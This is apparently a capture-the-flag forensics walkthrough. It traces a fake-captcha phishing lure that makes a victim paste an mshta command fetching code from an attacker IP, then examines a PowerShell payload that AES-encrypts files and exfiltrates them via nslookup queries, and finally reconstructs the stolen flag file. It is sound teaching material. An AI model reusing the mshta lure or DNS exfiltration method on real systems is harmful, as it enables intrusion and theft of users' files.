# Challenge description
We fired Billy last week after he failed a phishing test for the 6th time. We wiped his machine, but now we really need one of the files that was on it. Maybe he uploaded it somewhere? Do you think you can get it back from this packet capture?

[phished.pcap](https://file.notion.so/f/f/9fa62282-e62f-4d70-ad6b-eef473a5d439/4a5e5ffc-a94d-4127-9e76-0451720d7219/phished.pcapng?table=block&id=2735d1e3-8905-80b7-a477-cda40f9f81cc&spaceId=9fa62282-e62f-4d70-ad6b-eef473a5d439&expirationTimestamp=1780444800000&signature=0t3dPwCNA9WYTUv1SRM8B4fpXHCG3MhrNQQ3r2rQRHI&downloadName=phished.pcapng)

# Walkthrough
necessary tools for this walkthrough (though you might not need them all to solve the challenge some other way!)
- Wireshark
- CyberChef
- Tshark
- pycryptodome

## Initial forensics
When we first open the file on wireshark, we find the following

following the TCP stream, we see the html for the phishing website Billy fell for. Looking into what the html actually does, we see:

**Its a captcha!!** clicking on the square yields:


Oh no, thats bad! Billy shoud definitely not complete these verification steps!! If we check what is stored in our clipboard, we find the command

```
mshta null/recaptcha-verify # ... ''I am not a robot - reCAPTCHA Verification ID: 4286'’
```

now, what in the world is mshta and what happened to Billy when he entered that into windows exec command?

mshta is a windows binary that lets you fetch html from urls and execute it locally. Its quite dangerous and a very important attack vector, here, the attacker is using it to fetch malicious code from a website. we see the “null” url because we loaded the html in a online viewer. The actual command would look something like this

```
mshta http://34.30.235.186/recaptcha-verify # ... ''I am not a robot - reCAPTCHA Verification ID: 4286'’
```

We know that billy did, unfortunately, run the command. So what was the downloaded payload? Again, we turn to wireshark looking for TCP connections (since the request was http, not https).

After a bit of digging through the pcap in wireshark a bit more, we find a http request with this interesting line in the body of the response



So we have a call for powershell being ran inside the victims (billy’s) with something encoded. By decoding it in cyberchef we find, finally



Its a shell script! Now, lets look into carefully

## Payload Inspection

Here is the full script that we are going to analyze together

[malicious.bat](https://fluoridated-coriander-7db.notion.site/signed/attachment%3A1eac0298-45ac-417f-a00a-aeac9d7083ab%3Amalicious.bat?table=block&id=2755d1e3-8905-806b-ba73-ddf414d085ee&spaceId=9fa62282-e62f-4d70-ad6b-eef473a5d439&name=malicious.bat&cache=v2&imgBuildSrc=downloadUrlActions)

### Create-AesManagedObject($key, $IV)


In this snippet, we see that the function can receive a key and a Initialization vector
- We are applying AES cryptography to something
- We are using CBC cypher
- We use Zeros as padding
- each block is 128 bytes long
- the key is 256 bytes long




Here, we see that the AES key and Initialization vector may (or not!) be initialized from a base64 encoded string

### Encrypt-Bytes ($key, $bytes)


Here, we see how the encryption actually happens. The main things we can gather from the highlighted text are:

- Calls `Create-AesManagedObject $key` (so key is supplied; if no IV passed it will generate one).
- Creates an encryptor and calls `TransformFinalBlock($bytes, 0, $bytes.Length)` to produce ciphertext.
- Builds `[byte[]] $fullData = $aesManaged.IV + $encryptedData` (IV concatenated with ciphertext).
- Encodes that fullData to Base64 and returns it: **this is the string `$e` used later**.

**Why this matters:** The ciphertext returned is base64( IV || AES-CBC(ciphertext) ). The presence of the IV in the beginning means the receiver only needs the key to decrypt.

### Hardcoded configuration variables


- `$k = "2zdYBNUy1wBHMZIo7n6KuqO8Vv8biVgvjxqD/+DSnhQ="`
    - Base64 decoded → **32 bytes** (256-bit AES key).
- `$d = "34.30.40.114"`
    - Used as the **DNS server** argument for `nslookup` (see below).
- `$s = 4` (send every 4 chunks)
- `$b = 57` (chunk length in characters)

### The main Exfiltration Loop


We can see that, for each iteration of this loop, we have two main section

- Reading and encrypting files
- Breaking them up and sending via multiple dns queries

### FILE PREPARATION


For every file found in `~/Files`:

- `$a` = filename
- `$z` = raw file bytes
- `$e` = base64 string produced by `Encrypt-Bytes($k, $z)` (IV + ciphertext, base64)


### FILE EXFILTRATION



- Slices the base64 string `$e` into pieces of length `$b` (57 chars by default).
- Appends `"-."` after every chunk; the `.` acts as a DNS label separator so each chunk becomes a separate subdomain label.
- Every `$s` chunks (every 4 chunks), it sends a DNS query using:
    - `nslookup -type=A <assembled-subdomain><filename>. <serverIP>`
    - Note `nslookup name server` usage: the last argument (`$d`) is the DNS server to ask. So the script asks the attacker-controlled DNS server at `34.30.40.114` to resolve the long subdomain.
- A small `Start-Sleep -Milliseconds 157` is used to throttle requests.
- After the loop, any remaining accumulated chunks are sent in a final `nslookup`.

## File recovery
### Filtering what we need 
Since the files were exfiltrated via DNS queries, we know what to look for in our pcap file. Lets check our pcap for suspicious packets with the DNS protocol that have the IP 34.30.40.114 as the destination



Looking through these frames, we are quick to find what we are looking for (packets related the flag file), but there are too many of them, making it impractical to reconstruct the file by hand. Also, there is also one other file that might get mixed up with the flag one during reconstruction

 

In order to limit our pcap display to only packets that are related to the flag, we can add the && frame contains “flag” condition to our filter.



With that much cleaner display, we are getting very close to actually reconstructing the flag

### Making our life easier
Right now, our working directory has the files

- `phished.pcap` → the original full pcap
- `dns_exfiltration.pcap` → the filtered file, containing only the dns queries related to the flag
- `malicious.bat` → the malicious code

Our objective right now is to, from the `dns_exfiltration.pcap`, reconstruct `flag.docx` and, finally, read the flag. 

The problem is that, if we try to build a script to read the pcap directly, we will find the following problem:



this is pretty much impossible to read and parse! We need to, first, clean it a bit before we go about reading it.

Instead of the full packet dump, we are interested only in the query names from the pcap. We can do this, we can use tshark (which is included with wireshark) using this command:
`tshark -r dns_exfiltration.pcap -T fields -e dns.qry.name > dns_queries.txt` 

this will create the `dns_queries.txt` file, which is much prettier and easier to use



here, we have the dns query names themselves, which is precisely what we need in order to reconstruct the flag

### Flag reconstruction

Even with all the steps we took in order to make the file reconstruction process easier, its still too much work to be done by hand. We will need to create a script that performs all the steps involved in the file encryption, but backwards. Lets remind what happened in the `malicious.bat`  in order:

- Added null bytes `\x00` to the end of the file for padding
- It first prepended the file with the IV
- Base64 encoded the IV+file
- AES-CBC encrypted it with the Base64 key `2zdYBNUy1wBHMZIo7n6KuqO8Vv8biVgvjxqD/+DSnhQ=` + IV
- Broke it down into many chunks (each line in `dns_queries.txt` is a chunk), adding `-.flag.docx` in the end of each chunk

In order to reconstruct the flag, all we have to do is perform each one of those steps, but backwards! so, we need to, in this order:

- Remove `-.flag.docx` from the end of each chunk and stitch them all together
- Base64 decode the full file
- Recover the IV from the start (first 16 bytes)
- Base64 decode the key `2zdYBNUy1wBHMZIo7n6KuqO8Vv8biVgvjxqD/+DSnhQ=`
- Decrypt it with the key  + recovered IV
- Removed the trailing null bytes from the end of the file ( added for padding)

Here is the python script that performs all these steps (though you can do only the first one and do the rest in cyberchef)

[reconstruct.py](https://file.notion.so/f/f/9fa62282-e62f-4d70-ad6b-eef473a5d439/7919b6eb-116c-4cdc-9bf3-b85b49d71938/reconstruct.py?table=block&id=2755d1e3-8905-8024-8792-d231804c1a62&spaceId=9fa62282-e62f-4d70-ad6b-eef473a5d439&expirationTimestamp=1780444800000&signature=aJbAsok_56XD5fUgYpldg3QwpETep7jT-RhdN1oheMM&downloadName=reconstruct.py)

to check if the resulting file is correct, run the command
`file flag.docx `

If you see the output `flag.docx: Microsoft Word 2007+` , everything went according to plan!

Now, you just have to open it on microsoft word or libreword or anything like that and get your flag!



